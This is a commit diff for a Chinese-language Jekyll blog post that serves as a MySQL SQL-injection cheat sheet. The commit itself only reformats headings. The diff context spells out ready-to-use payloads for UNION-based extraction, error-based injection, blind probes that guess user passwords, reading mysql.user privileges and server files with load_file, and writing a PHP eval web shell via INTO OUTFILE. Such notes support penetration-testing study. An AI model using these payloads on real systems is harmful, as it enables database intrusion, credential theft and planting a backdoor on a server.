

Before and after one commit to alpha1e0/alpha1e0.github.io, a Jekyll site: the page built from _posts/2015-05-09-mysql-sql-注入.md, in a window 1280 px wide and 1400 px high, scrolled down 461 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
modify blog

```diff
--- a/_posts/2015-05-09-mysql-sql-注入.md
+++ b/_posts/2015-05-09-mysql-sql-注入.md
@@ -24,14 +24,18 @@ tags: 渗透测试
 ------
 
 ### 0x02 常用操作
-##### 常用语句：
+
+#### 常用语句：
+
 	select   /*用于输出信息；select 列名｜(数字｜字符串｜函数) as 别名（as可以省略）［from …］，注意使用select 函数来输出内容
 	union    /*联合操作符，注意前后列数相同，数据类型相差不大
 	group by /*分组
 	order by /*排序，order by 列名｜列序号
 	case expr when a then a** when b then b* else c* end  /*sql的switch语句
 	if(expr1, expr2, expr3)  /*if函数，当expr1为真返回expr2否则返回expr3
-##### 常用函数（获取系统信息）
+
+#### 常用函数（获取系统信息）
+
 	system_user()        /*系统用户名
 	user()               /*用户名
 	current_user()       /*当前用户名
@@ -42,7 +46,9 @@ tags: 渗透测试
 	@@datadir            /*读取数据库路径
 	@@basedir MYSQL      /*安装路径
 	@@version_compile_os /*操作系统
-##### 常用字符串函数
+
+#### 常用字符串函数
+
 	concat()                          /*连接字符串
 	group_concat()
 	concat_ws()                       /*连接字符串，第一个参数为分隔符
@@ -53,7 +59,9 @@ tags: 渗透测试
 	rand()                            /*生成0至1的随机数
 	floor(n)                          /*向下取整
 	name_conset(column_name, value)   /*用来产生一个结果集合
-##### 其他
+
+#### 其他
+
 	sleep(seconds) 停止seconds秒，用于time-based盲注
 	benchmark(times, function) 将function执行times次，该函数可用于time-based盲注，例如（benchmark(500000, encode(‘a’,’b'))）
 	encode(str, passwd_str) 使用passwd_str加密str函数
@@ -108,10 +116,11 @@ tags: 渗透测试
 6. 查询数据：
 
 	and 1=2 union select 1,2,3,字段1,5,字段2,7,8 from 数据库.表/*
-
+------
 
 ### 0x05 mysql报错注入
-##### 方法1:
+
+#### 方法1:
 
 	union select 1 from (select concat_ws(':', left(rand(), 3), 语句), count(*) from information_schema.tables group by 1)a;
 	and (select 1 from (select concat_ws(':', left(rand(), 3), 语句), count(*) from information_schema.tables group by 1)a);
@@ -119,10 +128,11 @@ tags: 渗透测试
 	例如：select concat_ws(':', left(rand(), 3), version()) as version, count(*) as count from r1 group by version;
 	ERROR 1062 (23000): Duplicate entry '0.5:5.6.20' for key 'group_key'
 
-##### 方法2:
+#### 方法2:
 	and (select * from (select name_const(语句,1), name_const(语句, 1)) as x);
 	例如：select * from (select name_const(version(),1), name_const(version(), 1)) as x;
 	Duplicate column name '5.6.20'
+------
 
 ### 0x06 盲注（待补充）
 	利用and a=b盲注
@@ -130,15 +140,16 @@ tags: 渗透测试
          ?id=5 and (select 1 from users limit 0,1)=1   猜解users表是否存在
          ?id=5 and (select substring(concat(1,password),1,1) from users limit 0,1)=1  猜解列名
          ?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>80
-
+------
 
 ### 0x07 mysql读写文件
-##### 判断是否具有读写权限:
+
+#### 判断是否具有读写权限:
 	and (select count(file_priv) from mysql.user)>0/*
 	and 1=2 union select 1,2, concat_ws(':', host, user, file_priv) from mysql.user/*
 	例如：select * from site_tb where 1=2 union select 1,2, concat_ws(':', host, user, file_priv) from mysql.user;
 
-##### 读文件
+#### 读文件
 	create table a(cmd text);
 	load data infile '/Users/apple/tmp/test.txt' into table a;
 	select * from a;   /* mysql 3.x 5.x
@@ -150,7 +161,7 @@ tags: 渗透测试
 	and 1=2 union select 1, 2, concat(load_file('/Users/apple/tmp/test.txt'))
 	例如：select * from site_tb union select 1, 2, concat(load_file('/Users/apple/tmp/test.txt'));
 
-##### 写文件
+#### 写文件
 	union select 1,2,3,char(这里写入你转换成10进制或16进制的一句话木马代码),5,6,7,8,9,10,7 into outfile ‘d:\web\90team.php’/*s
 	union select 1,2,3,load_file(‘d:\web\logo123.jpg’),5,6,7,8,9,10,7 into outfile ‘d:\web\90team.php’/*
 	例如：select * from site_tb union select 1, 2, '<?php eval(\"_POST[\'test\']\”);?>' into outfile 'shell.php';
@@ -158,7 +169,7 @@ tags: 渗透测试
 ### 0x08插入、更新数据
 	insert into user(username,password) values(‘xxxx’,’ xxxx’),(‘dddd’,’dddd’)/* ‘);
 	update table set column=value where **/*
-
+------
 
 ### 参考：
 * http://www.91ri.org/9000.html
```
